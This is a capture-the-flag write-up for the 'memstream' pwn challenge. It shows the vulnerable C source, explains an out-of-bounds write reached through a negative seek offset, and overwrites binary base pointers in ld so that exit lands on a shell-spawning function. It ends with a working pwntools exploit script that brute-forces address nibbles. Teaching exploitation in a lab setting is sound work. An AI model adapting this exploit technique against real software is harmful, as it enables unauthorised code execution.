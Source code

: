 Memstream was the second pwn challenge in the event. it was medium difficulty.
Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#define MEM_MAX 0x1000

char g_buf[MEM_MAX];
off_t g_cur;

static void win() {
  system("/bin/sh");
}

size_t getval(const char *msg) {
  size_t val;
  printf("%s", msg);
  if (scanf("%ld%*c", &val) != 1)
    exit(1);
  return val;
}

void do_seek() {
  off_t cur = getval("Position: ");
  if (cur >= MEM_MAX) {
    puts("[-] Invalid offset");
    return;
  }
  g_cur = cur;
  puts("[+] Done");
}

void do_write() {
  int size = getval("Size: ");
  if (g_cur + size > MEM_MAX) {
    puts("[-] Invalid size");
    return;
  }
  printf("Data: ");
  if (fread(g_buf + g_cur, sizeof(char), size, stdin) != size)
    exit(1);
  puts("[+] Done");
}

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  puts("1. Seek\n2. Read\n3. Write");
  while (1) {
    switch (getval("> ")) {
      case 1: do_seek(); break;
      case 2: puts("You know what you wrote."); break;
      case 3: do_write(); break;
      default: return 0;
    }
  }
}

```

After running `checksec` on the binary, it shows that the binary is packed with UPX:

```
itay@itay-Vortex-G25-8RD:~/Desktop/mystuff/mystuff/blackhat/pwn/second/player$ checksec --file=memstream
[!] Did not find any GOT entries
[*] '/home/itay/Desktop/mystuff/mystuff/blackhat/pwn/second/player/memstream'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Packer:   Packed with UPX
```

We can see that the binary is with `No Relro`, and without stack canary.
Now, let's look for vulnerabilities.
The binary consists of a simple main menu.
We can `seek` , which lets us change an index `g_cur`, in a global array.
We can `write`, which will write to `g_buf[g_cur]`.
The vulnerability is simple. When seeking, it doesn't check if our value is minus. This basically gives us an OOB write primitive.
There is not a `read` option, which hints that our solution should be without any leaks.

*Exploitation*

With my OOB write, I was thinking what can I overwrite.
I saw in GDB, that when running our `memstream` binary, it is not loaded in `0x55***000` as usual, but in `0x7ff****000`, which means it has been `mmaped`.
This means that it is a constant offset from our dynamic libaries (i.e ld). With that in mind, we can overwrite anything we want from there.
One thing I knew, is that `ld` stores the binary base address in its writable segment. Then, when exiting the program, it will jump to the memory inside that address + 0x3d88:
![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/0844b927-c56d-4515-b14a-41320393bb8a)

If rax is `*(0x7ffff7fef2e0)` = `0x7ffff7ff7000`, it will do `call [rax + 0x3d88]`, which under normal circumstances is `__do_global_dtors_aux`.
So , we can control rax, to be whatever we want, and then it will jump to whats inside that `address + 0x3d88`.
After a quick search, I found out that the `win` function isn't written in any location inside the memory of that binary, so we should write somewhere ourselves. 
As seen in the previous screenshot, there is a second binary base address located in ld.
So, I partially overwrote it, to point to our win function. then , with our second write, I overwrote the second binary base to point to `first_binary_base - 0x3d88`, which will jump to main!
One thing to notice is that when we partially overwrite the base to point to the win function, we'll need to bruteforce one nibble. the offset of the `win` function is `0x1229`, and we can know just the 3 first nibbles of the base.
In my script I overwrote it to be 0x8229:
```py
	offset_base2 = 0x5a28
	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))
```

Then, the same issue occurs when we partially overwrite the second base address, I just guessed `0x5638`:

```py
	offset_base_win = 0x5d80
  seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b") #trigger exit
```

In total, we bruteforced 2 nibbles, and each one has a 1/16 success rate. so we will have `1/16*1/16=1/256` success rate.
Here is my final script, which will be need to run multiple times to succeed:

```py
from pwn import *


def seek(offset):
	p.recvuntil("> ")
	p.sendline("1")
	p.sendline(str(offset))

def write(size, payload):
	print(p.recvuntil("> "))
	p.sendline("3")
	print(p.recvuntil(": "))
	p.sendline(str(size))
	print(p.recvuntil(": "))
	p.send(payload)



while True:
	p = process("./memstream")

	offset_base_win = 0x5d80
	offset_base2 = 0x5a28


	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))

	seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b")

	try:
		p.sendline("ls")
		print(p.recv())
		#p.interactive()
	except:

		p.close()
		continue
	finally:
		p.interactive()
```


